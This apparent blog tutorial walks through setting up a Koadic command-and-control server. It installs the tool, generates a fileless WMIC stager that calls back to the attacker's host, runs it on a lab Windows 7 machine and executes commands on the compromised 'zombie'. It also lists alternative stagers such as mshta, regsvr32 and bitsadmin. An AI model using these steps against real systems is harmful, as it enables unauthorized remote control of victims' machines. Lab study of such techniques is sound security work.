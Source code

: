 ```yaml
---
title: "Create Command and Control Server with Koadic"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey readers. Have you wonder how attacker compromised user and do the "bad things" from their Command and Control (C2) server to its zombies (victims) ?

In this tutorial, let us be that "attacker" and learn how they do this type of attack using a tool named [Koadic](https://github.com/zerosum0x0/koadic).

Disclaimer:
This is for research and education purpose only. Do with your own risk. Dosa guys pedajal orang.

Back to the topic. From their repo, they explained...

"Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire. The major difference is that Koadic does most of its operations using Windows Script Host (a.k.a. JScript/VBScript), with compatibility in the core to support a default installation of Windows 2000 with no service packs (and potentially even versions of NT4) all the way through Windows 10.

It is possible to serve payloads completely in memory from stage 0 to beyond, as well as use cryptographically secure communications over SSL and TLS (depending on what the victim OS has enabled)."

## Installation

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```
## Generate payload
First, we run koadic and use module named wmic.
```
use stager/js/wmic
set srvhost 192.168.83.128
run
```
Note:
Replace the IP with your own.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/1.png)
## Deliver payload

Copy the fileless `wmic` command and deliver to your target. In case here, I'm just copy and paste into my targeted virtual machine (Win7). This serves payloads in memory using WMIC. So, we can consider this as fileless malware cause it serves in memory. 

For example of delivering payload, you can do technique like [malicious .lnk](https://fareedfauzi.github.io/blog-post/Create-malicious-lnk/) to compromise user.

So, after press enter in cmd. The payload should be run.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/2.PNG)

Switch back to our kali machine, focus back to our terminal.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/3.PNG)

You will notice that our target machine now will become our first zombie.
If we issue command `zombies 0`, it will give information about the compromised user (our first zombie).

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/4.PNG)

## Execute Command using Koadic

Using module `exec_cmd`, we specify the command that we want to execute. In this case, I give `calc.exe` as command that I want to execute.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/5.PNG)
```
use implant/manage/exec_cmd
set cmd calc.exe
set zombie 0
run
```
And calc.exe will be executed. Hooray 🎉.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/6.PNG)

We're now "king" for our zombies.

Let's try with other command line program.

```
set cmd ipconfig
set zombie 0
run
```

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/7.PNG)

Let's demonstrate in gif format, so give clear understanding for the flow of execution. Please zoom-in the gif if you can't see clearly.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/a.gif)

## Last but not least
For stagers, instead of using wmic as our fileless malware, this tool have other option like mshta and etc.

Module | Description | Malware Category
--------|------------|-----
stager/js/mshta | serves payloads in memory using MSHTA.exe HTML Applications | File-less
stager/js/regsvr | serves payloads in memory using regsvr32.exe COM+ scriptlets | File-less
stager/js/rundll32_js | serves payloads in memory using rundll32.exe | File- less
stager/js/disk | serves payloads using files on disk | File-based
stager/js/wmic | serves payloads in memory using WMIC | File-less
stager/js/bitsadmin | transfers a .wsf payload containing JScript over a Bitsadmin job and executes it | File-less

You can read more in [Koadic repository](https://github.com/zerosum0x0/koadic) readme[.]md .

That's all. Thanks for reading!
